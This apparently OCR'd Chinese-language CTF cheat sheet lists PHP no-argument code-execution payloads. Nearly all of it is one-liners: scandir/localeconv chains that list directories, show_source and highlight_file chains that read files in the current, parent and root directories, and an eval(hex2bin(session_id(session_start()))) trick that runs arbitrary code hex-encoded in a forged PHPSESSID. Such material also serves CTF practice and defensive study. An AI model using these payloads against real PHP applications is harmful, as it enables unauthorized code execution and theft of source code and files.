 ```
print_r(scandir(current(localeconv())));
```

**读取当前目录文件**

```
show_source(end(scandir(getcwd())));
show_source(current(array_reverse(scandir(getcwd()))));
```

**随机返回当前目录文件**

```
highlight_file(array_rand(array_flip(scandir(getcwd()))));
show_source(array_rand(array_flip(scandir(getcwd()))));
show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

**查看上级目录**

```
print_r(scandir(dirname(getcwd())));
print_r(scandir(next(scandir(getcwd()))));
print_r(scandir(next(scandir(getcwd()))));
```

**读取上级目录文件**

```
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
```

**查看根目录文件名**

```
print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));
```

##### session_id

通过开启session，构造恶意session值进而执行任意恶意代码，构造脚本如下

```
<?php
echo bin2hex("phpinfo();");
?>
```

恶意代码

```
eval(hex2bin(session_id(session_start())));
```

恶意session值

```
phpsessid=706870696e666f28293b
```
